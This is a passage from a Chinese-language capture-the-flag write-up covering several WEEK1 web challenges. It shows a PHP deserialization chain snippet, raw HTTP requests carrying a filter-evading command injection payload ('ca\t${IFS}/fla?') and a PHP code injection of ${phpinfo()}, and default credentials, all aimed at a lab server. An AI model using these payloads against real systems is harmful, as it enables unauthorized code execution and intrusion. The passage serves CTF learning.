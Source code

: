 ```
$pop->q->z->p=new A();
echo urlencode(serialize($pop));
```

### [WEEK1]babyRCE

bp发包

```
GET /?rce=ca\t${IFS}/fla? HTTP/1.1
Host: 112.6.51.212:31105
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### [WEEK1]登录就给flag

```
admin/password
```

### [WEEK1]飞机大战

右键查看源代码，查看JS代码

![image-20231125205406658](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20231125205406658.png)

找到

![image-20231125205435707](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20231125205435707.png)

解码得到flag

### [WEEK1]ezphp

```
POST /?code=?.*=${phpinfo()} HTTP/1.1
Host: 112.6.51.212:31240
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
